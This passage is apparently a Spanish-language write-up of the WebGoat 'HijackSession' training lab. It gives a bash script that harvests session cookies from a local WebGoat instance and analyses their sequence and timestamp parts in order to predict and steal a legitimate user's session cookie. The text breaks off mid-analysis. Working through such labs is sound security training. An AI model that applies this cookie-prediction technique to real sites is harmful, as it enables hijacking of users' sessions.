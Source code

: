 ¡Confirmado es una marca temporal! Ahora nos queda analizar la primera parte que sabemos no es totalmente aleatoria

```bash
#!/bin/bash
limit=$2
diff=$4
for i in $(seq 1 $limit)
do 
	hijack_cookie=$(curl -i -s -k -X  'POST' \
		-H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' \
		-H "Cookie: JSESSIONID=$1"  \
		--data-raw $'username=foo&password=bar' \
		'http://localhost:8080/WebGoat/HijackSession/login' \
		2>/dev/null | grep -i '^Set-Cookie:' | grep -oP '(?<=hijack_cookie=)[^;]+')
	
	parte1=${hijack_cookie%-*}
	parte1=$((parte1))
	diferencia1=$(( parte1 - parte1_tmp ))
	parte1_tmp=$parte1
	parte2=${hijack_cookie#*-}	

	parte1_tmp=$parte1
	parte2_tmp=$parte2	

	if [ $diferencia1 -gt $diff ] && (($parte1 != $diferencia1)); then
	  echo "$parte1 ($diferencia1) - $parte2"
	fi	
	sleep $3
done
```
Con `./script.sh $JSESSIONID 1000 0 2` notamos que no existe una salida con una diferencia mayor de dos unidades en 1000 iteraciones

```plaintext

```

Pero entonces ¿Por que aveces salta una unidad y por que aveces dos unidades? La ultima pista nos da una sugerencia:

> Sometimes, authorized users logs into the application.

Analicemos estas 4 cookies que salieron de 4 peticiones consecutivas:
1. hijack_cookie = 47453956126114195**48** + 1686442464150
2. hijack_cookie = 47453956126114195**49** + 1686442464160 
3. hijack_cookie = 47453956126114195**51** + 1686442465180 
4. hijack_cookie = 47453956126114195**52** + 1686442465790 

Entre la cookie \#2 y la cookie \#3 notamos que alguien tomó el secuencie que seguía 47453956126114195**50**... ese sería el usuario legítimo que logró autenticarse, y por ende ese sería la cookie que debemos robar. Ahora solo necesitamos adivinar cual es la marca temporal

1. hijack_cookie = 47453956126114195**48** + 1686442464150
2. hijack_cookie = 47453956126114195**49** + 1686442464160 
3. hijack_cookie = 47453956126114195**51** + 1686442465180 
4. hijack_cookie = 47453956126114195**52** + 1686442465790 
